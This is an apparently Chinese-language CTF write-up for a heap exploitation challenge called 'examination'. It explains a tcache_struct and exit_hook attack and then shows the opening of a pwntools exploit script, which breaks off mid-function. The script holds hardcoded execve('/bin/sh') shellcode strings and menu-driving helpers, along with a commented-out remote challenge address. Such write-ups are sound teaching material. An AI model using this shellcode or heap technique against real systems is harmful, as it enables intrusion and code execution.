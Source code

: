 题目有一个malloc功能，malloc然后写入。但使用以后就会执行exit，所以这里就考虑申请exit_hook写exit_hook，malloc可以申请tcache，那我们直接在tcache_struct里对应大小的首节点即可。实际操作，要控制tcache结构体利用setmode功能，这个功能有2个分功能：一个是开辟一个附属堆块，并写入内容；一个在'学生'堆块上放附属堆块地址的位置写一个小于100的数。利用第二个分功能实现小区域任意申请，可以申请到tcache_struct。

![image-20220421130625857](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220421130625857.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level = 'debug'

p = process('./examination')
elf = ELF("./examination")
libc = elf.libc
# p = remote("123.60.76.240","60001")
def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def addstu(num):
    sla("choice>> ",1)
    sla("enter the number of questions: ",num)
def givesc():
    sla("choice>> ",2)
def addcom(idx,size,con):
    sla("choice>> ",3)
    sla("which one? > ",idx)
    sla("please input the size of comment: ",size)
    sa("enter your comment:",con)
def delstu(idx):
    sla("choice>> ",4)
    sla("which student id to choose?",idx)
def role(choice):
    sla("choice>> ",5)
    sla("role: <0.teacher/1.student>: ",choice)

def check():
    sla("choice>> ",2)
def pray():
    sla("choice>> ",3)
def setmode0(con):
    sla("choice>> ",4)
    sa("enter your mode!",con)
def setmode1(sc):
    sla("choice>> ",4)
    sla("enter your pray score: 0 to 100",sc)
def setid(idx):
```